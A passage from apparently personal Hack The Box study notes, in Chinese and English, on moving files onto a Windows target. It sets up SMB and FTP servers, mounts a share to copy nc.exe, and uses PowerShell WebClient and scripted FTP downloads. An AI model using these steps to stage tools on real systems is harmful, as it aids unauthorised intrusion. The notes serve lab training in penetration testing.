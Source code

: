 **所以可以创建有认证的share，并在目标机上挂载之：**
```shell-session
TimeLess613@htb[/htb]$ sudo impacket-smbserver -smb2support share /tmp/smbshare -user test -password test
```

**Mount the SMB Server (to drive `n`) with Username and Password**
```cmd-session
C:\htb> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

C:\htb> copy n:\nc.exe
        1 file(s) copied.
```

> [!NOTE] **Note:** You can also mount the SMB server if you receive an error when you use `copy filename \\IP\sharename`.


### FTP Downloads

#### Setting up a Python3 FTP Server

```shell-session
TimeLess613@htb[/htb]$ sudo pip3 install pyftpdlib

TimeLess613@htb[/htb]$ sudo python3 -m pyftpdlib --port 21

[I 2022-05-17 10:09:19] concurrency model: async
[I 2022-05-17 10:09:19] masquerade (NAT) address: None
[I 2022-05-17 10:09:19] passive ports: None
[I 2022-05-17 10:09:19] >>> starting FTP server on 0.0.0.0:21, pid=3210 <<<
```

#### Transfering Files from an FTP Server Using PowerShell

```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```
- 使用了ftp协议

##### 自动化 FTP 操作

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt

C:\htb> ftp -v -n -s:ftpcommand.txt

ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```
- `-s:ftpcommand.txt`：指定命令文件
